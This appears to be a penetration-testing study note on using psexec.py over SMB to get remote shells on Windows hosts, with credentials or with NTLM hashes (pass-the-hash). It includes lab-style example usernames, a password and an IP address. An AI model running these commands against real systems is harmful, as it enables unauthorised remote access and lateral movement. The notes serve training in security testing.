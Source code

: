 #psexec 
#smb #windows/smb
```
psexec.py 'domain/user:'Password'@ip
```

```
psexec.py marvel.local/fcastle'Password1'@10.0.0.25
```
#hash 
User the has to gain access
![[Pasted image 20240909123327.png]]

```
psexec.py 'user'@'ip address' -hashes 'LM:NT'
```